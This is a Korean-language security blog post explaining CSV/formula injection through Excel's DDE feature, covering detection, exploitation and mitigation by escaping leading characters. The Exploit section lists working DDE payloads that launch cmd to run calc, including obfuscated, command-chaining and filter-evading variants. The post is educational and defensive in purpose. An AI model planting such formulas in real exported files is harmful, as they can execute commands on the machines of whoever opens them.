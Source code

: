 ```yaml
---
layout: post
title: CSV Injection
subtitle: Dynamic Data Exchange를 활용한 악성 CSV File 생성
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
>🚨
>현재는 사용자가 DDE 작동 허용 설정을 하더라도 DDE가 포함된 CSV 파일을 열 때, Excel 경고창이 나타도록 되어있어 사회 공학적 요소도 필요한 공격 방법입니다.

Formula Injection 취약점 내 한 종류로 분류되는 CSV Injection은 일반적으로 CSV Export 등과 같은 CSV File Download 기능에서 발생됩니다.   
☑️간혹 잘못된 로직으로 .xlsx 생성 시에 발생하기도 합니다.   

발생 원리는 DDE(Dynamic Data Exchange)라는 Window 운영체제에서 응용 프로그램 간 데이터 전송을 위해 사용되는 기능이 악의적으로 작동됨에 기반합니다.

## Detect & Exploit 
### Detect
사용자 입력 값이 CSV File Download 시 반영되는 지 확인하고, 악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 있는 지 확인하면 됩니다.
### Exploit
악성 DDE를 삽입하여 작동 여부를 살펴보면 됩니다.
```c
#Basic Payload
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'

#Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

#Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```
## Security Measures
악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 없도록 `Space`, `'` 등을 가장 앞에 삽입하여 조치하면 됩니다.
```c
'=2+5+cmd|' /C calc'!A0
 =cmd|' /C calc'!'A1'
```
## References
[Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)   
[OWASP-CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)   
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection)